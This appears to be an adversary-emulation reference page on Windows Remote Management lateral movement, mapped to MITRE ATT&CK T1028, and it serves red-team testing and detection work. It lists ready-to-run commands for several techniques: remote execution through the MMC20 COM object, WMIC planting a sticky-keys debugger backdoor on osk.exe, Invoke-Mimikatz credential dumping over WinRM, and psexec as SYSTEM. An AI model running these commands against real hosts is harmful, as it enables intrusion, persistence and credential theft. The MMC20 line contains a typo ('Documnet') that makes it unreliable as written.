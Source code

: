﻿## Windows Remote Management

MITRE ATT&CK Technique: [T1028](https://attack.mitre.org/wiki/Technique/T1028)

### Enable Windows Remote Management

Input:

    powershell Enable-PSRemoting -Force

### Powershell lateral movement using the mmc20 application com object

Input:

    powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","<computer_name>")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/


### WMIC Process Call Create

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

### PowerSploit Invoke-Mimikatz WinRM

    powershell-import /local/path/to/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComputerName TARGET

Reference:

 https://blog.cobaltstrike.com/2015/07/22/winrm-is-my-remote-access-tool/
 
 ### psexec
 
Input:
 
`psexec \\host -u domain\user -p password -s cmd.exe`

Note:

Using psexec will start a new process and create an EVENT ID on the remote host.
